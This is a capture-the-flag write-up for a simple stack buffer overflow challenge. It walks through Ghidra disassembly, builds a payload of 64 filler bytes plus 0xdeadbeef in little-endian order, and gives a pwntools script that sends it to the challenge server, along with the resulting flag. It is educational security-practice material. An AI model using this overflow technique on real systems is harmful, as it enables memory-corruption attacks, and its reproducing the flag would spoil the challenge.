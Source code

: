 # variable bof
![image](https://user-images.githubusercontent.com/34862954/164884883-ec4ea2ec-b96c-4770-bd14-fd0584328d66.png)

## Approach
Once again, disassembly the file with ghidra to view the pseudocode.\
![image](https://user-images.githubusercontent.com/34862954/164883191-83c106af-6abd-40a2-8539-db44fe824706.png)

Hmmmm.<br>
Here we have to make the value of local_128 as `-0x21524111`\
Wait what's that? Negative hex?\
Well if you convert that hex into decimal and then convert it to hex by 2's compliment\
It's `0xdeadbeef` 🔥

Now how can make that local_128 equal to 0xdeadbeef?!<br>
We need to know that the stack grows downward<br>
![image](https://user-images.githubusercontent.com/34862954/164883524-0d5bc8f8-9613-4e18-bbd1-1fc260d963c9.png)

So we need the bufferflow attack like this. first 64 A's then deadbeef but in reverse order.<br>![image](https://user-images.githubusercontent.com/34862954/164884035-e9b0b1c2-d862-4953-bfb2-b754e84df1b8.png)

Now our attack string is `'A'*64 + '\xEF\xBE\xAD\xDE'`

I used pwntools to make the attack as manually copying the string won't work as it may hv some non printable characters.

```
from pwn import *


conn = remote('wannahack.copsiitbhu.co.in',2420)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()

#just dont forget this '\n' at the end 
payload = 'A'*64 +'\xEF\xBE\xAD\xDE' + '\n' 

conn.send(payload)
print(conn.recvline())

conn.close()
```

This will do the work. Yeah, pwntools are simply awesome!!
![image](https://user-images.githubusercontent.com/34862954/164884849-de65b57a-9fc5-42b7-9424-f620b2b9bf5a.png)
Yay u got the flag.

`flag: wannahack{H0w_d1d_y0u_c5@ng3_M3_!!!!!}`


